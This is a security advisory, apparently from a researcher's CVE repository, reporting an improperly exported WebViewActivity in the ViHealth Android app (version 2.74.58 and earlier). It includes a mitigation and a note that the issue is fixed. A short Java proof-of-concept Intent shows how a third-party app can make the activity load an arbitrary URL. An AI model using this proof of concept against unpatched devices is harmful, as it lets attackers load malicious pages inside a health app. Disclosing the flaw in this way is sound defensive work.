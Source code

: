 

Vendor of Product: Viatom Health                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type: CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

![image](https://github.com/actuator/cve/assets/78701239/6d9c2530-0122-4ea6-871a-72fd6c1ad08b)




An attacker could craft a 3rd party app using the following code to load the URL of their choice to facilitate malicious actions:




********************************************************************************************************************************

Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.fast.com");

// Start the activity
startActivity(launch);

********************************************************************************************************************************


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.


![image](https://github.com/actuator/cve/assets/78701239/00fe68ca-6030-4eac-a84b-188c0036b5d8)


![image](https://github.com/actuator/cve/assets/78701239/4c2b98e8-2407-4325-bc96-8de0dae71443)


Discoverer: Edward Warren
